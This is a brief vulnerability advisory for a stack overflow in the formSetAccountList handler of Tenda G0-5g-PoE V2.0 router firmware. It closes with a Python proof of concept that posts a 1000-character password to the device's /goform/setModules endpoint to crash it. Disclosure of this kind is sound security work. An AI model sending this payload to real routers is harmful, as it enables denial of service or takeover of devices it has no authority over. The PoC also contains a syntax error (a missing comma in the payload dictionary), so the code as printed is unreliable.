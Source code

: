 # Tenda G0-5g-PoE V2.0 formSetAccountList
### Overview
vendor: Tenda

product: G0-5g-PoE V2.0

version: V16.01.1.8 and before

type: Stack Overflow
### Vulnerability Description
Tenda G0-5g-PoEV2.0 V16.01.1.8 were discovered to contain a stack overflow in the formSetAccountList function.
### Vulnerability details
In function formSetAccountList line 30、34, it reads in a user-provided parameter `password`, and the variable `String` is passed to the `SimpleEncryptToBase64` function without any length check, which may overflow the stack-based buffer `v17`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G0-5g-poev20-2-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "userType": "admin"
    "password": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
